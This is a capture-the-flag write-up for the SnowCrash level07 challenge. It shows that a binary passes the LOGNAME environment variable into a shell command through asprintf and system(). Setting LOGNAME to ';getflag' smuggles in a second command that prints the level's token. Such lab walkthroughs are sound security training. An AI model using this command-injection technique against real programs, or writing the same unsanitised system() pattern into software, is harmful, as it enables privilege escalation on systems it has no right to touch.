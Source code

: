 ### Exploit

For this level, we find a binary file `level07`. As we execute it, it simply prints "level07" out. It does so because in fact, it prints the value the environment variable "$LOGNAME" is set to. Not convinced yet?
```
    level07@SnowCrash:~$ env
    [...]
    LOGNAME=level07
    [...]
    level07@SnowCrash:~$ export LOGNAME="flag07"
    level07@SnowCrash:~$ ./level07
    flag07
```
Thankfully, the executable also call the function `system` which, remember, executes a shell command. [asprintf](http://man7.org/linux/man-pages/man3/asprintf.3.html) copies the logname with the echo command into a buffer, which is then executed. 

```
    level07@SnowCrash:~$ export LOGNAME=";getflag"
    level07@SnowCrash:~$ ./level07

    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
The first semicolon is required, [otherwise the command won't be executed](https://unix.stackexchange.com/questions/36745/when-to-use-a-semi-colon-between-environment-variables-and-a-command)

Wow-oh, we're halfway the-re.
